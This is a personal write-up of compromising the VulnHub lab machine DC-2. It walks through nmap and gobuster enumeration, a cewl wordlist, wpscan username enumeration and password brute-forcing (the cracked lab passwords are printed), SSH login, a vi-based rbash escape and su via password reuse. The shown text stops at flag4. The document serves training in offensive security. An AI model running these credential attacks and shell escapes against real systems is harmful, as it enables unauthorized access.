# DC-2 — VulnHub Walkthrough & Penetration Test Documentation

> **Target machine:** DC-2 (VulnHub)
> **Objective:** Gain root access and recover all five flags.
> **Environment:** VirtualBox host-only / NAT network, Kali Linux attacker.
> **Author:** Jean Carlo
> **Date:** 2026-10-22

---

## 1. Executive Summary

DC-2 is a deliberately vulnerable machine running a **WordPress 4.7.10** site on Debian. I compromised it from an unauthenticated network position all the way to **root** by chaining the following:

1. **Network/service enumeration** (netdiscover, nmap) — identified WordPress on port 80 and SSH on a non-standard port (7744).
2. **Custom wordlist generation** — used `cewl` to build a target-specific wordlist from the site's own content (as flag1 hinted).
3. **WordPress credential attack** — enumerated users with `wpscan` and cracked passwords for `tom` and `jerry` using the cewl wordlist.
4. **Alternate entry point** — the cracked credentials worked over **SSH (port 7744)** as `tom`, landing in a **restricted shell (rbash)**.
5. **Restricted-shell escape** — broke out of rbash via `vi`, restored `PATH`, and used `su` to pivot to `jerry`.
6. **Privilege escalation** — abused `jerry`'s `sudo` rights on `git` (GTFOBins pager technique) to obtain a **root** shell.

**Result:** Full root compromise. I recovered all five flags.

---

## 2. Target & Scope

| Item | Value |
|---|---|
| Target IP | `10.0.2.22` |
| Hostname | `dc-2` (added to `/etc/hosts`) |
| Attacker IP | `10.0.2.15` |
| OS (detected) | Linux 3.x–4.x (Debian) |
| Services | Apache 2.4.10 / WordPress 4.7.10 (80), OpenSSH 6.7p1 (7744) |

---

## 3. Reconnaissance

### 3.1 Host discovery — netdiscover

I used `netdiscover` to locate the target on the subnet.

```bash
sudo netdiscover -r 10.0.0.0/16
```

The target was identified at **10.0.2.22**.

*Screenshot:* 

### 3.2 Initial port & service scan — nmap

```bash
sudo nmap -A -p- 10.0.2.22 -oN nmap.txt
```

The initial scan returned limited information on port 80, and the site would not resolve/render correctly because WordPress was configured to use the hostname **`dc-2`** rather than the IP. The web server kept redirecting to `http://dc-2/`, which my machine couldn't resolve.

*Screenshot:* 

### 3.3 Adding the hostname to /etc/hosts

To let my machine resolve the WordPress hostname, I mapped `dc-2` to the target IP:

```bash
sudo nano /etc/hosts # then I add 10.0.2.22     dc-2
```

*Screenshot:* 

### 3.4 Re-running nmap

With the hostname resolving, I re-ran nmap, which now returned fuller details on port 80.

```bash
sudo nmap -A -p- 10.0.2.22 -oN nmap.txt
```

**Key results:**

| Port | State | Service | Version |
|---|---|---|---|
| 80/tcp | open | http | Apache httpd 2.4.10 (Debian) — **WordPress 4.7.10** |
| 7744/tcp | open | ssh | OpenSSH 6.7p1 Debian 5+deb8u7 |

Notable points:
- `http-generator: WordPress 4.7.10` — confirms the CMS and version.
- **SSH is on port 7744**, not the default 22 — important for the "alternate entry point" later.

*Screenshot:* 

---

## 4. Web Enumeration

### 4.1 Browsing the site & confirming WordPress

I visited `http://dc-2/` — a WordPress site. I confirmed the version via the page source (`<meta name="generator" content="WordPress 4.7.10">`), which also matched the nmap `http-generator` result.

*Screenshot:*  



### 4.2 flag1

**flag1** is displayed on the site itself.

> **flag1:** `Your usual wordlists probably won't work, so instead, maybe you just need to be cewl. More passwords is always better, but sometimes you just can't win them all. Log in as one to see the next flag. If you can't find it, log in as another.`

*My read:* this hint points directly at **`cewl`** ("be cewl") — standard wordlists won't contain the right passwords, so I needed a **custom wordlist built from the site's own content**. "Log in as one… or another" indicates **multiple WordPress users**.

*Screenshot:* 

### 4.3 Directory/file enumeration — gobuster

I enumerated directories and files to map any exposed paths or hidden endpoints on the web server.

```bash
gobuster dir -u http://dc-2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://dc-2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html
```

The first scan (directories only) found nothing useful except `/server-status`, which returned HTTP 403.

The second scan with `-x php,html` found the usual WordPress files, including `wp-login.php` — the WordPress login page. I did not have any credentials for it yet at this point.

*Screenshot:*  



---

## 5. Building a Custom Wordlist (cewl)

Following flag1's hint, I researched **cewl** and found out that it is a tool that crawls a target website and generates a wordlist from the words found on its pages.

cewl crawls from the site root automatically (default depth 2), harvesting the text from the target's pages (the "Welcome / What we do / Our People / Our Products" content):

```bash
cewl http://dc-2/ -w wordlist.txt
```

This produced a target-specific wordlist (`wordlist.txt`) containing the site's own vocabulary.

*Screenshot:* 

---

## 6. WordPress Credential Attack (wpscan)

### 6.1 Enumerating usernames

```bash
wpscan --url http://dc-2/ --enumerate u
```

This returned the valid WordPress usernames, which I saved to `users.txt`:
- `admin`
- `tom`
- `jerry`

*Screenshot:* 

### 6.2 Password attack with the cewl wordlist

I ran wpscan against the enumerated users using my cewl-generated wordlist as the password list:

```bash
wpscan --url http://dc-2/ -U users.txt -P wordlist.txt
```

wpscan recovered valid credentials for **two** accounts:

| Username | Password |
|---|---|
| `tom` | `parturient` |
| `jerry` | `adipiscing` |

*Screenshot:* 

---

## 7. flag2 — WordPress Dashboard

I logged into `/wp-login.php` with the cracked credentials. Tom does not have the flag 2, however it can be found in Jerry's account specifically in the Pages section.

> **flag2:** `If you can't exploit WordPress and take a shortcut, there is another way. Hope you found another entry point.`

*My read:* flag2 explicitly steers away from a WordPress-based exploit and toward "another entry point". Looking back at the nmap scan, SSH is open via port 7744.

*Screenshot:* 



---

## 8. Alternate Entry Point — SSH (Port 7744)

Taking flag2's hint, I tried the cracked WordPress credentials against SSH on the non-standard port **7744**:

```bash
ssh jerry@10.0.2.22 -p 7744     # failed
ssh tom@10.0.2.22 -p 7744       # success
```

- `jerry` — login failed.
- `tom` — login **succeeded**.

*Screenshot:* 

### 8.1 Restricted shell (rbash)

`tom`'s account was confined to a **restricted shell (rbash)**. Common commands were unavailable — the shell reported `command not found` for binaries outside its limited `PATH`:

```bash
cat flag3.txt     # -bash: cat: command not found
nano flag3.txt    # -bash: nano: command not found
```

I confirmed which commands *were* available by trial — **`vi` was usable**, which let me both read files and (later) escape the shell.

*Screenshot:* 

### 8.2 flag3

I read flag3 using `vi`:

```bash
vi flag3.txt
```

> **flag3:** `Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.`

*My read:* the hint points at using **`su`** to switch to the **`jerry`** user.

*Screenshot:* 

---

## 9. Escaping the Restricted Shell & Pivoting to jerry

### 9.1 Breaking out of rbash via vi

rbash blocks commands containing `/`, blocks `cd`, and locks `PATH`. An interactive program like `vi` can spawn an unrestricted shell. Inside `vi` (command mode):

```
:set shell=/bin/bash
:shell
```

This dropped me into an unrestricted `/bin/bash`.

*Screenshot:* 



### 9.2 Restoring PATH

The new shell still had the crippled `PATH`, so `su` (and other binaries) still would not resolve. I rebuilt the `PATH`:

```bash
export PATH=/usr/bin:/bin:/usr/sbin:/sbin:$PATH
export SHELL=/bin/bash
```

Standard commands (`su`, `cat`, etc.) were now available.

*Screenshot:* 

### 9.3 Switching to jerry (flag3's hint)

```bash
su jerry
# password: adipiscing  (jerry's WordPress password — reused for the system account)
```

The WordPress password worked for the system account, confirming credential reuse. As `jerry`, I found **flag4** in `/home/jerry`.

*Screenshot:* 

### 9.4 flag4

Flag 4 can be found in the home directory of jerry so I just cd to /home/jerry.

> **flag4:** `Good to see that you've made it this far - but you're not home yet. You still need to get the final flag (the only flag that really counts!!!). No hints here - you're on your own now. :-) Go on - git outta here!!!!`

*My read:* despite "no hints," the closing line ("**git** outta here") is a deliberate pointer at **git** as the privilege-escalation vector.

